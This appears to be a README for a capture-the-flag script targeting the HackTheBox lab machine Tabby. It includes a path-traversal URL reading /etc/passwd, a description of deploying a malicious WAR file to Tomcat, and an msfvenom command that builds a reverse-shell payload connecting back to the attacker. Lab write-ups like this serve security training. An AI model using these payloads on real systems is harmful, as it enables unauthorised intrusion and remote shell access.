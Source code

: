 # HTB Tabby

## About
Python script that automates a back-connect shell on the HackTheBox machine **Tabby**.

Exploits a file malicious WAR file deployment after gaining tomcat credentials from LFI:
http://tabby.htb/news.php?file=../../../../etc/passwd

## Requirements
Requires netcat to be installed on your system and installed to your $PATH as **nc**

## Usage
Specify the host and port you wish to listen on, along with the path to the malicious WAR shell.

`htb-tabby.py {LHOST} {LPORT} {PATH_TO_WAR_SHELL}`

### Generating a WAR Shell
`msfvenom -p java/jsp_shell_reverse_tcp LHOST={LHOST} LPORT={LPORT} -f war > shell.war`